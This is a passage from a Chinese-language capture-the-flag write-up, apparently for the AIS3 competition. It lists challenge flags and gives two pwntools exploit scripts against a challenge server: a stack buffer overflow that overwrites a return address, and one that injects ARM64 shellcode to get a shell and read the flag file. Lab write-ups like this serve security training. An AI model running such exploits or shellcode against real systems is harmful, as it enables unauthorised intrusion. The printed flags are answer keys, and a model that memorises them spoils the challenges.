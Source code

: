 **Flag:** `AIS3{congrats_on_crashing_my_editor!_but_can_you_get_shell_from_it?}`

### BOF2WIN

1. 純粹的 stack buffer overflow。

   ```python
   from pwn import *

   p = remote('127.0.0.1', 12347)
   p = remote('chals1.ais3.org', 12347)

   flag_adr = 0x401216

   payload = b'A'*24
   payload += flag_adr.to_bytes(8, 'little')

   p.recv()
   p.sendline(payload)
   print(p.recv())
   print(p.recv().strip(b'\x00').decode())
   ```

**Flag:** `AIS3{Re@1_B0F_m4st3r!!}`

### Give Me SC

1. 不會寫 ARM64 shellcode 就上網找一份來用。

   ```python
   from pwn import *

   p = remote('127.0.0.1', 15566)
   p = remote('chals1.ais3.org', 15566)

   # ref: https://www.exploit-db.com/exploits/47048
   shellcode = b"\xe1\x45\x8c\xd2\x21\xcd\xad\xf2\xe1\x65\xce\xf2\x01\x0d\xe0\xf2\xe1\x8f\x1f\xf8\xe1\x03\x1f\xaa\xe2\x03\x1f\xaa\xe0\x63\x21\x8b\xa8\x1b\x80\xd2\xe1\x66\x02\xd4"

   p.recv()
   p.send(b'AAAA')
   p.recv()
   p.send(shellcode)
   print(p.recv())
   p.sendline(b'cat home/give_me_sc/flag')
   print(p.recv().decode())
   print(p.recv().decode())
   # p.interactive()
   ```

**Flag:** `AIS3{Y0uR_f1rst_Aarch64_Shellcoding}`

### Magic
